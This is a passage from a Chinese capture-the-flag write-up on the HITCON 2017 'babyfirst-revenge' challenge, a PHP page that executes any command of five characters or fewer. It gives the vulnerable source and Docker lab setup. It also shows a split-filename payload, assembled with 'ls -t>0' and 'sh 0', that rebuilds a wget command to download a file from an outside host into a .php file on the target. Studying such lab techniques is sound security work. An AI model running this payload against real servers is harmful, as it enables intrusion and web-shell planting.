 这样可以是wget下载网页内容定向输出到指定文件。

burp抓包，

```
>hp
>1.p\\
>-O\ \\
>4x\ \\
>0\.\\
>2x\\
>x\.\\
>5\\
>3\.\\
>1x\\
>\ \\
>wget\\
ls -t>0
sh 0
```

自己做拆分的时候需要注意一点，.不能放在文件名开头，因为以.开头的文件名是隐藏文件，ls是列不出来的）。

#### 5个字符

项目地址 https://github.com/t3hp0rP/hitconDockerfile

部署环境：


* 进入Dockerfile所在的目录
* 运行命令 `docker build -t '自定义镜像名称' .` (请注意最后的点不要少)
* 运行命令 `docker images` 查看是否已经成功构建景象
* 运行命令 `docker run -id --name '自定义容器名称' -m '要分配给此容器的内存上限' --network='要分配给此容器的网络' -p '容器的外部端口':80 '自定义镜像名称' /run.sh`
* 进入容器 运行指令 `docker exec -it '容器名称' /bin/bash`

**HITCON 2017 babyfirst-revenge**

进去之后题目源码显示在页面上：

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```


访问主页即可看到源码，在/www/sandbox/下有每个人独立的一个文件夹进行操作，同时有个cmd无论我们传什么进去他都会照单执行，但是每次的长度限制为最多5个字符。

linux中ls命令默认是[字典序](https://baike.baidu.com/item/%E5%AD%97%E5%85%B8%E5%BA%8F/7786229?fr=aladdin)排序的,

